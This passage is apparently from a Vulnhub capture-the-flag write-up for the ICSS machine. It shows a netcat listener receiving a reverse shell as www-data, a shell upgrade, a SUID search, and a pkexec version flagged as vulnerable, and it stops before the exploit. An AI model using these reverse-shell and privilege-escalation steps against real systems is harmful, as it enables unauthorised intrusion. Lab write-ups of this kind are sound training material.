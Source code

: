 ```bash
┌──(kali㉿kali)-[~/Downloads/Vulnhub/ICSS]
└─$ nc -lvnp 4444                                     
listening on [any] 4444 ...
connect to [10.0.2.60] from (UNKNOWN) [10.0.2.65] 37532
/bin/sh: 0: cant access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@ICSSteam:/var/www/html$ whoami
whoami
www-data
www-data@ICSSteam:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@ICSSteam:/var/www/html$
```
{: .nolineno}
{: .nolineno}

Now I checked the SUIDs and I got some data like `psexec` file →

```bash
www-data@ICSSteam:/tmp$ find / -perm -u=s -type f 2>/dev/null
/bin/mount
/bin/umount
/bin/ping
/bin/su
/bin/fusermount
/bin/ping6
/usr/bin/at
/usr/bin/newuidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newgidmap
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/home/darkxploiter/check
www-data@ICSSteam:/tmp$
```
{: .nolineno}
{: .nolineno}

I checked its version and it was vulnerable so I exploited it →

```bash
www-data@ICSSteam:/home/darkxploiter$ pkexec --version
pkexec version 0.105
```
{: .nolineno}
{: .nolineno}
